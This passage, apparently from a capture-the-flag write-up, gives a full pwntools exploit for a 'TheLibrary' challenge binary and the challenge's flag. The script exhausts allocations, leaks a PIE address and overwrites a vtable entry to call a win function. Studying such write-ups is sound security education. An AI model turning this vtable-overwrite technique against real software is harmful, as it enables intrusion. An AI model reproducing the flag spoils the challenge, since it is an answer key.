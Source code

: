 We have now completed our setup, and now all we have to do is to write the address of `win` to the vtable. Here is the full exploit:

```python
from pwn import *

e = context.binary = ELF('./TheLibrary.elf')
p = e.process() if not args.REMOTE else remote('[REDACTED]', -1)

OFFSET = 0x66b6
WIN = 0x8054

p.sendline(b'') # name
p.sendline(b'') # motto

# use up all allocations
p.sendline(b'5') # brocstand layout
for _ in range(0x300):
    p.sendline(b'1') # add brocstand
    p.sendline(b'')
    p.recvuntil(b'Enter your option:')
    print(p.recvuntil(b'['))
pause()

# all allocations used up, next alloc forced to offset -1
# cdstand vtable, cdstand struct and name all in same location
p.sendline(b'5') # back to library
p.sendline(b'4') # cdstand layout
p.sendline(b'1') # add cdstand
p.sendline(b'5') # back to library

# use name to read vtable function
p.sendline(b'1') # set name
p.sendline(b'') # name
p.clean()
p.sendline(b'') # motto

# pie leak
p.recvuntil(b' [Motto]: ')
leak = u64(p.recvline()[8-2+8:8-2:-1])
print('Leak:', hex(leak))
e.address = leak - OFFSET
print('ELF :', hex(e.address))

# patch over last function in vtable
p.sendline(b'1') # set name
p.sendline(b'') # name
p.sendline(b'\x00'*(8-1) + p64(e.address + WIN)[::-1]) # motto

# call last function (win)
p.sendline(b'4') # cdstand layout
p.sendline(b'2') # edit cdstand
p.sendline(b'1') # index 1
p.sendline(b'5') # function 5

p.interactive()
```

(Note: The script above does not work all the time, but it should work often enough.)

```
TISC{fr3e-FrE3-l3t_mE_fReEe3!!}
```


  [Name]: a
  [Motto]: b